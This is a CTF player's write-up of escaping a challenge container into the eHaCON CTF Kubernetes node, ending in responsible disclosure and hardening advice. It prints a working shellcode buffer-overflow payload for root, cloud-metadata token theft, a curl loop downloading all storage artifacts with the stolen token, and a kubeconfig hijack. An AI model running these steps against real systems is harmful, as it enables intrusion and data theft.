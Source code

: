 # How we hacked eHaCON CTF Infra

#### TL;DR
This is the story of how me [H-mmer#8548](https://h-mmer.xyz) and my teammate **fredd#8512** hacked ourselves into eHaCON CTF kubernetes cluster node, gaining access to all challenge containers hosted in the cluster as well as their service account token which allowed us to download all the challenge files/flags you name it.


## Storytime
All of this happened kind of on an accident while we were doing another challenge challenge which required us to use FTP in passive mode and since the passive mode didn't work on outside networks we figured to go about it by a different way. There was another challenge hosted in a container which was in the same network as the FTP server was running. So being our hacky selves we figured out a way to elevate privileges inside that other container to root so we could install FTP client in there and solve the challenge in a much, much unintended way.

##### Unintended solve
Here's the code for the privilege escalation using the BOF challenge binary which incidentally had root suid which enable all this. The binary itself didn't have any protections including no NX so it enabled us to jump to the env var with shellcode which was intended for the challenge itself.
```sh
export A=$(echo -e '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xffjqXH\x89\xfe\x0f\x05jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05')
(python3 -c 'import struct,sys;sys.stdout.buffer.write(b"A"*104+struct.pack("<Q",0x7fffffffe841))'; cat) | ./BOF
apt install ftp
```

##### Re-return (the kernel module)
After clearing out other challenges we came back to this and realized that there's some unintended kernel pwn/docker escape challenge. Fredd found out through `capsh` that there's a `cap_sys_module` which allows you to load arbitary kernel modules which would allow us to do anything in the host kernel.

<img src="img/img3.png" height=300px width=700px>

Fredd went on to write a kernel module to exploit that **BUT** that didn't work since there was [additional protection](https://kernel.org/doc/html/latest/admin-guide/LSM/LoadPin.html) methods inside that specific kernel.

![img5](img/img5.png)
![img6](img/img6.png)
![img4](img/img4.png)

##### Gaining access to k8s
 So after that we went on to try a container escape [with this](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/). After running the PoC we were inside the kubernetes node.
 The node was read-only filesystem and we couldn't run `kubectl get pods` straight away.
 Instead what we did was we started digging around the googleclouds computeMetadata and shortly after we found the service account token which we then used to retrieve all the artifacts from their storage.
 
 ![img2](img/img2.png)
 
 Command we used to download all the artifacts:
 ```sh
 mkdir files; for f in $(cat files.txt); do echo $f; curl -H 'Metadata-Flavor: Google' -H "Authorization: Bearer $TOKEN" $f -o "files/$(echo -ne $f|md5sum|awk '{print $1}').tar.gz"; done
 ```
 After we got all the files we kinda wanted to get the actual access to the kubernetes pods and we figured out a way to do that by finding kubelet config file in `/var/lib/kubelet/kubeconfig`, after some googling found out that `kubectl` stores its config in `~/.kube/config` so by setting `$HOME` directory for the root user in `/dev/shm` which was writable(is by default) and copying the `/var/lib/kubelet/kubeconfig` into our new home directory.
 `mkdir ~/.kube && cp /var/lib/kubelet/kubeconfig ~/.kube/config`
After that we were able to run any kubectl command.

<img src="img/img1.png">

##### Report to organizers
 After reporting our findings to the admins we went to sleep and I got a bunch of messages from the organizers/admins of the CTF thanking us for the responsible report and not breaking stuff. A while after the fixes were done, the original challenge which made all this possible was removed from the CTF since it couldn't be fixed in a way that would leave the binary solvable and also fix the security issues caused by it so the admins made the choice to remove the challenge. At that point I thought everything was fixed, but then I recalled they had another challenge which also included access to a container. Where we could once again gain the service account token through computeMetadata. After reporting that back they managed to remove the service account from the metadata listing so we couldn't get the token anymore and the metadata itself was a bit more restricted.

##### Conclusion
It's not a good idea to run privileged containers in CTF challenges that let's people inside the container also not the best idea to use root SUID binary with bufferoverflow without any protections and make sure your cloud metadata/userdata is not accessible through your challenges.